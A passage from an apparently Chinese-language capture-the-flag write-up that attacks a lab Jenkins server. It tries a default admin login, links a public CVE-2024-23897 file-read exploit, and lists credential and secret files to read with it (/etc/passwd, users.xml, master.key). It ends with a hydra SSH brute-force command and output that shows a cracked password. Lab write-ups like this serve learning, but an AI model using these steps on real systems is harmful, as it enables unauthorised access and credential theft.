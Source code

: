 ```bash
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID.ee849cb9=node01aqnwx6eedrh51y0ahh8o5zi4o46075.node0
Connection: close

j_username=admin&j_password=password&from=&Submit=
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137382.png" alt="image-20240509154019741" style="zoom:50%;" />

暂时行不通。

### 尝试其他漏洞

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137383.png" alt="image-20240509155424230" style="zoom:50%;" />

右下角看到版本，尝试找一下相关漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137384.png" alt="image-20240509155446385" style="zoom:50%;" />

很多的漏洞但是版本号对不上，尝试搜索一下相关漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137385.png" alt="image-20240509155517807" style="zoom:50%;" />

但是都没尝试成功，尝试换一下别的：https://github.com/godylockz/CVE-2024-23897

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137386.png" alt="image-20240509160123083" style="zoom:50%;" />

这个成功了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137387.png" alt="image-20240509160135853" style="zoom:50%;" />

尝试按照payload的介绍走：

- `/proc/self/environ` Environmental variables including `JENKINS_HOME`
- `/proc/self/cmdline` Command-line arguments
- `/etc/hosts` Linux local-DNS resolution
- `/etc/passwd` Linux user accounts
- `/var/jenkins_home/users/users.xml` User account storage locations
- `/var/jenkins_home/users/<user_directory>/config.xml` User BCrypt password hash
- `/var/jenkins_home/secrets/master.key` Encryption secret key

但是搞不了。。。。没发现第一步所讲的文件目录，到处翻翻吧。。。

![image-20240509165358153](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202405101137388.png)

没收获，后面我就下了，有师傅试出来了配置文件的路径`/home/penetration/.jenkins`，但是是空，还有师傅爆破出来了：

```bash
┌──(kali💀kali)-[~/temp/qweasd/CVE-2024-23897]
└─$ hydra -l kali -P /usr/share/wordlists/rockyou.txt ssh://172.20.10.3
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 23:25:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.20.10.3:22/
[STATUS] 107.00 tries/min, 107 tries in 00:01h, 14344293 to do in 2234:19h, 15 active
[STATUS] 105.33 tries/min, 316 tries in 00:03h, 14344084 to do in 2269:39h, 15 active
[22][ssh] host: 172.20.10.3   login: kali   password: asdfgh
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
```